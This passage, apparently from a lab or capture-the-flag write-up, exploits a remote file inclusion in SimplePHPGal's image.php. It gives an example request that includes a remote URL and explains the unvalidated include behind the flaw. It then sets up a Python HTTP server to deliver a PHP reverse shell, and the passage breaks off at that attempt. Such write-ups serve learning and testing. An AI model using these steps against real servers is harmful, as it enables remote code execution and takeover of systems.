 
By running and testing the PoC, any image hosted on the internet or another server can be uploaded. Here is our RFI:
```sh
http://192.168.155.58/image.php?img=https://chiefdennis.github.io/avatar.png
```
![image](Picture9.png)


This RFI in SimplePHPGal 0.7, also applicable to version 0.8, is possible because the img parameter in image.php is included directly with "include($GET['img'])"; without validation. This allows an attacker to supply an external URL pointing to a malicious file, running it on the server. The vulnerability arises because allow_url_fopen and/or allow_url_include are enabled, allowing the inclusion of remote files without restrictions.

It is possible that apart from an RFI, we are dealing with a remote execution of commands. Let's try to load a php reverse Shell hosted on our attacking machine into the service. To do this, we set up a simple http server with Python:
```sh
python3 -m http.server 80
```

An attempt is made to run the reverse Shell p0wnyshell:
